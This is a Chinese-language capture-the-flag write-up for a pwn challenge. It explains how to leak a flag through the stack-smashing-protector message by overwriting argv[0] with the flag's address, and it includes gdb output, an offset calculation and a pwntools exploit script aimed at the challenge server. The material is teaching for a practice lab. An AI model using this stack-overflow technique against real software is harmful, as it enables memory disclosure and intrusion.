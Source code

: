 get存在明显的栈溢出漏洞，由于Canary保护机制，我们也不能通过暴力和泄露来解决，继续观察发现byte\_600D20，点击发现：

```plain
.data:0000000000600D20 byte_600D20     db 50h                  ; DATA XREF: sub_4007E0+6E↑w
.data:0000000000600D21 aCtfHereSTheFla db 'CTF{Here',27h,'s the flag on server}',0
```

从提示中可以发现这并不是真正的flag，真正的flag存储在远程服务器的这个地址上。

一种思路诞生：将argv\[0\]覆盖成flag地址，通过ssp leak来泄露。

两个步骤：寻找flag的地址；寻找argv\[0\]与栈指针的偏移量

程序后半部分需要我们在byte\_600D20这个地址上重写flag，故这个地址不能使用。在一些小程序中，对于这些小文本会有备份，通过gdb进行查找：

\*\*peda使用find，pwndbg使用search

```plain
gdb-peda$ find CTF
Searching for 'CTF' in: None ranges
Found 5 results, display max 5 items:
   bin2 : 0x400d21 ("CTF{Here's the flag on server}")
   bin2 : 0x600d21 ("CTF{Here's the flag on server}")
```

发现0x400d21处也存放该字字符串。

寻找偏移量：在main前下断点

```plain
0000| 0x7fffffffddd8 --> 0x7ffff7a2e830 (<__libc_start_main+240>:   mov    edi,eax)
0008| 0x7fffffffdde0 --> 0x0 
0016| 0x7fffffffdde8 --> 0x7fffffffdeb8 --> 0x7fffffffe210 ("/home/qufeng/Desktop/CTF/pwn/stack/canary/bin2")
```

argv\[0\]的地址为0x7fffffffdeb8

在get函数前设置断点，查看此时栈顶的值：

```plain
gdb-peda$ b *0x000000000040080E
Breakpoint 2 at 0x40080e

gdb-peda$ p $rsp
$4 = (void *) 0x7fffffffdca0

偏移量：0x7fffffffdeb8-0x7fffffffdca0=0x218
```

脚本如下：

```plain
# -*- coding:utf-8 -*-
from pwn import *

context(os='linux',arch='amd64',log_level='debug')

# p = process('./bin2')
p = remote('pwn.jarvisoj.com',9877)

flag_addr = 0x400d21
payload = 'a'*0x218 + p64(flag_addr)
p.sendlineafter('your name? ',payload)
p.recv()
p.sendline()
p.interactive()

或：
payload = p64(flag_addr)*200
```
